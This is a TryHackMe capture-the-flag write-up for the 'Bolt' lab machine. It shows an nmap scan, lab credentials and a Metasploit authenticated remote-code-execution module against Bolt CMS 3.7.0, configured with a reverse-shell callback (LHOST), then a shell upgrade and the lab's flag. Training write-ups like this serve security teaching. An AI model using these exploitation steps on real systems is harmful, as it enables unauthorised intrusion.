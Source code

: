 ```yaml
---
title: "Tryhackme - Bolt WriteUp"
date: 2020-10-18
tags: [tryhackme, walkthrough, linux]
header:
  image: "/images/not-found.gif"
excerpt: "Walkthroughs"
---
```



# TryHackMe - Bolt WriteUp

Hello, everyone. Today I will share my notes from Bolt vulnerable machine. I will try to share only the main points during the process.

**Keywords:** Bolt CMS, Metasploit, 


First of all, we do **nmap** scan.
```
root@kali:~/TryHackMe/Bolt# nmap -sV 10.10.27.14
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    (PHP 7.2.32-1)
```

From website, we find these credentials: **bolt:boltadmin123**

Then we use **Metasploit**
```
msf5 > search -d Bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability
   1  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution

...
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.27.14
RHOSTS => 10.10.27.14
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.11.19.26
msf5 exploit(unix/webapp/bolt_authenticated_rce) > exploit

python3 -c "import pty; pty.spawn('/bin/bash')"
root@bolt:~# updatedb
root@bolt:~# locate flag.txt
/home/flag.txt
root@bolt:~# cat /home/flag.txt
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
root@bolt:~# 
```
